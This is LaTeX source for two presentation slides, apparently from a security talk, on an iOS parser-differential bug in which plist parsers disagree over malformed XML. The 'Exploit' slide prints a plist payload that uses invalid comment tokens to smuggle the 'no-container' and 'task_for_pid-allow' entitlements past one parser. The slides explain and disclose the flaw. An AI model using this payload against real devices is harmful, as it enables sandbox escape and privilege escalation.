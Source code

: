 \documentclass{beamer}
\begin{document}
\section{The Bug}
\begin{frame}[fragile]{The Bug}\footnotesize
\begin{flushleft}
iOS doesn’t have just one, or two, or even three plist parsers, it has at least four!
\begin{enumerate}
    \item IOCFUnserialize in IOKitUser {\tiny [alias:\emph{IOKit} ]}
    \item OSUnserializeXML in the kernel {\tiny [equivalent to \emph{IOKit} ]}
    \item xpc\_create\_from\_plist in libxpc {\tiny [alias: \emph{XPC} ]}
    \item CFPropertyListCreateWithData in CoreFoundation {\tiny [alias: \emph{CF} ]}
\end{enumerate}
\vfill
So the three interesting questions that arise from this are:
\begin{itemize}
    \item Which parsers are used to parse entitlements? {answer: all of them!}
    \item Which parser does \emph{AMFId} use? {answer: \emph{CF}}
    \item And do all parsers return the same data? {answer: \textcolor{red}{nope!}}
\end{itemize}
\vfill
Valid XML makes all parsers return the same data, but slightly invalid XML makes them return just slightly not the same data! \textcolor{red}{:D}\vfill\small
In other words, any parser difference can be exploited to make different parsers see different things. This is the very heart of this bug, making it not just a logic flaw, but a system-spanning design flaw.
\end{flushleft}
\end{frame}

\section{The Exploit}
\begin{frame}[fragile]{The Exploit}
\begin{flushleft}
\begin{verbatim}
<plist version="1.0">
<dict>
    <!---><!-->
    <key>com.apple.private.security.no-container</key>
    <true/>
    <key>task_for_pid-allow</key>
    <true/>
    <!-- -->
</dict>
</plist>
\end{verbatim}
\vfill
The interesting tokens here are \texttt|<!--->| and \texttt|<!-->| which are not valid XML tokens.\\\vfill
Nonetheless, IOKit, CF and XPC all accept the above XML/plist, just they don't produce \textcolor{red}{ exactly the same output}.
\end{flushleft}
\end{frame}
\end{document}
